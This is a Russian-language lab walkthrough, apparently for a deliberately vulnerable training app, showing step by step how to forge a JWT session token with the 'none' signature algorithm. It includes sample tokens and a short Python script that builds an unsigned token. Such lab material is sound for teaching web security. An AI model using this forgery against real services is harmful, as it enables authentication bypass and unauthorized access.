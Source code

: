 
## Эксплуатация (none signature)

### Шаг 1

Сначала необходимо получить JWT токен. Для этого необходимо залогиниться на http://jwt_insecure.lab/login (user:pass).

В session cookie сервер передает JWT токен, пример: 
```
session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc;
```
JWT токен:
- Header: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
- Payload: eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9
- Signature: r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc

Для наглядности идем [сюда](https://jwt.io/) и декодируем Header и Payload из JWT токена. Результат:

- Header
```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```
- Payload
```json
{
  "username": "user",
  "is_admin": false
}
```

### Шаг 2
 
Меняем в Header алгоритм подписи на none:
```json
{
  "typ": "JWT",
  "alg": "none"
}
```

### Шаг 3
 
Генерируем новый JWT токен, у которого третья часть (Signature) пустая. Для этого можно использовать следующий код для Python 3

```python
import base64

def b64urlencode(data):
    return base64.b64encode(data.encode('ascii')).decode('ascii').replace('+', '-').replace('/', '_').replace('=', '')

print("%s.%s." % (
        b64urlencode("{\"typ\":\"JWT\",\"alg\":\"none\"}"), # Header with none
        b64urlencode("{\"username\":\"user\",\"is_admin\":false}"), # Payload
    )
)
```

